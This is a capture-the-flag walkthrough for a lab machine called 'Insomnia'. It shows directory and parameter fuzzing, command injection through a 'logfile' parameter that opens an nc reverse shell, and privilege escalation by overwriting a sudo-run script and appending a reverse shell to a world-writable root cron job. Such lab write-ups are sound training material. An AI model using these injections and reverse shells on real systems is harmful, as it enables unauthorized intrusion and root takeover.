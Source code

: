 
# Insomnia - Walkthrough by Alienum
## Directory Scan
```console
dirb http://10.0.2.114:8080/ -X .php,.txt                                                             

+ http://10.0.2.114:8080/administration.php (CODE:200|SIZE:65)                                                   
+ http://10.0.2.114:8080/chat.txt (CODE:200|SIZE:1)                                                              
+ http://10.0.2.114:8080/index.php (CODE:200|SIZE:2899)                                                          
+ http://10.0.2.114:8080/process.php (CODE:200|SIZE:2)  
```

## Find GET parameter
```console
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://10.0.2.114:8080/administration.php?FUZZ=test'                                                               
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000000485:   200        2 L      12 W       69 Ch       "logfile"    
```
## Reverse shell
```console
http://10.0.2.114:8080/administration.php?logfile=chat.txt;nc -e /bin/sh 10.0.2.15 4444
```
### My machine
```console
nc -lvp 4444
www-data@insomnia:~$ cd /home/julia
www-data@insomnia:~$ cat user.txt
```
## SLOW WAY TO ROOT (www-data -> julia -> root)
```console
www-data@insomnia:~/julia$ sudo -l
(julia) NOPASSWD: /bin/bash /var/www/html/start.sh

www-data@insomnia:~$ cd /var/www/html

www-data@insomnia:/var/www/html$ ls -la | grep start.sh
-rwxrwxrwx 1 root     root       20 Dec 21 04:18 start.sh

www-data@insomnia:/var/www/html$ cat start.sh
cat start.sh
php -S 0.0.0.0:8080
```
## Edit start.sh
```console
www-data@insomnia:/var/www/html$ cat start.sh
cat start.sh
php -S 0.0.0.0:8080

www-data@insomnia:/var/www/html$ echo "/bin/bash" > start.sh

www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh

julia@insomnia:/var/www/html$ id
id
uid=1000(julia) gid=1000(julia) groups=1000(julia)
```

## cat /etc/crontab
```console
julia@insomnia:~$ cat /etc/crontab
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/bash /var/cron/check.sh

julia@insomnia:~$ cd /var/cron
cd /var/cron
julia@insomnia:/var/cron$ ls -la | grep check.sh
ls -la | grep check.sh
-rwxrwxrwx  1 root root  153 Dec 21 04:17 check.sh
```
## Target machine, check.sh is writable, edit check.sh
```console
julia@insomnia:/var/cron$ echo "nc -e /bin/sh 10.0.2.15 5555" >> check.sh
```
## My machine, wait a little bit
```console
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 5555
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.114 [10.0.2.114] 40348
id
uid=0(root) gid=0(root) groups=0(root)
```

## Fast way to root (www-data -> root)
the www-data also can write the /var/cron/check.sh
so we are able to priv esc from www-data to root with the same way as julia
